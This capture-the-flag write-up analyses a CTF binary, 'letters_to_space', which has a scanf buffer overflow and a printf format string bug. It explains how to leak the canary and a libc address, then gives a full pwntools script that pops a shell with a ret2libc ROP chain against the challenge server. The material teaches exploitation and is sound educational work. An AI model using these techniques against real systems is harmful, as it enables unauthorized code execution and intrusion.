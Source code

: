 #  Challenge Description

Welcome to our new inter-galactic mail service! Send letters to your loved aliens, and maybe even read a secret letter!
 
Note: flag.txt is in the home directory.

[letters_to_space](letters_to_space)

# Identifying the Vulnerability
Running a `checksec` on the binary, we can see that all protections are actually enabled which makes this binary a pain to exploit.
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Nevertheless, let's run the binary and see how it works.

[![asciicast](https://asciinema.org/a/AxsL2HenIa2NiFR54Ktbb7tRU.svg)](https://asciinema.org/a/AxsL2HenIa2NiFR54Ktbb7tRU)

As you can see from the video above, the program takes 3 inputs in an endless loop that is controlled by the user.

Now that we know what to expect, we will decompile our program in IDA and see how the pseudocode looks like.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+4h] [rbp-7Ch] BYREF
  char *v5; // [rsp+8h] [rbp-78h]
  char format[32]; // [rsp+10h] [rbp-70h] BYREF
  char v7[32]; // [rsp+30h] [rbp-50h] BYREF
  char v8[40]; // [rsp+50h] [rbp-30h] BYREF
  unsigned __int64 v9; // [rsp+78h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  v5 = SECRET_LETTER_PATH;
  v4 = 1;
  setup_IO(argc, argv, envp);
  
  while ( v4 == 1 )
  {
    printf("\x1B[2J\x1B[H");
    print_banner();
    printf("Enter sender: ");
    __isoc99_scanf("%s", v8); // <----- (1)
    printf("Enter recipient: ");
    __isoc99_scanf("%s", v7); // <----- (2)
    printf("Enter contents: ");
    __isoc99_scanf("%s", format); // <----- (3)
    printf("\x1B[2J\x1B[H");
    puts("Here's what I wrote:\n");
    printf("Dear %s,\n\n", v7);
    printf(format); // <----- (4)
    printf("\n\nFrom, %s\n\n", v8);
    puts("Send another letter?");
    puts("1. Yes");
    puts("2. No");
    printf("> ");
    __isoc99_scanf("%d", &v4);
  }
  
  printf("\x1B[2J\x1B[H");
  puts("Oh by the way, someone left a secret letter for you.\nWould u like to read it?");
  puts("1. Yes");
  puts("2. No");
  printf("> ");
  __isoc99_scanf("%d", &v4);
  if ( v4 == 1 )
    display_letter(v5);
  return 0;
}
```

Looking at the pseudocode, we see the loop that takes in our 3 inputs — but what is more interesting is the way these inputs are being taken in and what is being done to it.

#### The Buffer overflow vulnerability

At **(1)** **(2)** and **(3)**, we can see that our 3 inputs are being taken in with a `scanf` function and the format string used is a `%s`. This means that we can send as many characters as we want in our input into a limited size buffer _(v1, v2 and format)_ in this case.

This gives rise to a buffer overflow in each of these inputs.

#### THE FORMAT STRING VULNERABILITY

At **(4)**, we can see that the program is printing our input with `printf`, however there are no format strings specified. This means that we can simply put format strings in our input to leak arbitrary data in the stack.

Not only is our input vulnerable to a buffer overflow, it is also vulnerable to format string exploitation.

#### Exploitation strategy

With our format string vulnerability, we can leak all sorts of stuff from the stack. We are able to leak our canary, libc addresses, as well as the binary addresses. This allows us to effectively defeat the stack canary, PIE and LIBC PIE protections. 

With our buffer overflow vulnerability, we are able to take control of our return address and use a ROP chain to pop a shell by calling `system('/bin/sh')`. The **system** functionc an be found within the LIBC and hence we will employ a return to libc attack.

# Exploitation Walkthrough

For simplicity sake when writing our exploit, we will first write a function to interact with the program.

```py
def interact(sender, recipient, content, another):
    p.sendlineafter(b"sender: ", sender)
    p.sendlineafter(b"recipient: ", recipient)
    p.sendlineafter(b"contents: ", content) 
    p.recvuntil("Dear " + recipient + ",")
    p.recvline()
    p.recvline()
    ret = int(p.recvline(), 16)
    p.sendlineafter(b"> ", another)
    return ret
```

In order to be able to buffer overflow our program without getting a _\*\*\* stack smashing detected \*\*\*: terminated_ error, we have to first leak our canary and obtain our canary value.

We can do this through leaking the canary off the stack with our format string exploit. With some calculation in GDB, we can find our canary at offset **21** on the stack. (This means that if we send _%21$p_ to our format string vulnerable input, we will get our canary!)

Then we can find our **\_\_libc\_start\_main+243** address at offset **23** on the stack. This means that we can do _%23$p_ on the remote server to leak the **\_\_libc\_start\_main+243** address.

With our leak, we will be able to do a reverse search to find the libc running on the remote machine. It is necessary to have an identical libc to the remote server so we can accurately calculate where our system address actually is.

![image](libcdbsearch.png)

With out canary and libc address, we can then simply call **system('/bin/sh')**.

## Exploit Script

```py

# coding: utf-8
from pwn import *

context.binary = elf = ELF('./letters_to_space')
libc = elf.libc
# libc = ELF('./lib/libc.so.6')
# p = process('./letters_to_space')
p = remote('challenges1.whitehacks.xyz', 53890)

def interact(sender, recipient, content, another):
    p.sendlineafter(b"sender: ", sender)
    p.sendlineafter(b"recipient: ", recipient)
    p.sendlineafter(b"contents: ", content) 
    p.recvuntil("Dear " + recipient + ",")
    p.recvline()
    p.recvline()
    leak = int(p.recvline(), 16)
    p.sendlineafter(b"> ", another)
    return leak


# leak libc
leak = interact("a", "b", "%23$p", "1")
libc.address = leak - 0x26fc0 - 243

# search for /bin/sh string in libc
binsh = next(libc.search(b'/bin/sh'))

# leak canary
canary = interact("a", "b", "%21$p", "1")

# setup our rop chain to call system /bin/sh
rop = ROP(libc)
rop.call(rop.ret)
rop.system(binsh)

payload = b"A"*40 + p64(canary)
payload += b"B"*8 + rop.chain()

# send our payload and exit the loop so we can return to our system binsh rop chain
interact(payload, "a", "b", "2")
p.sendline("2")

p.interactive()
```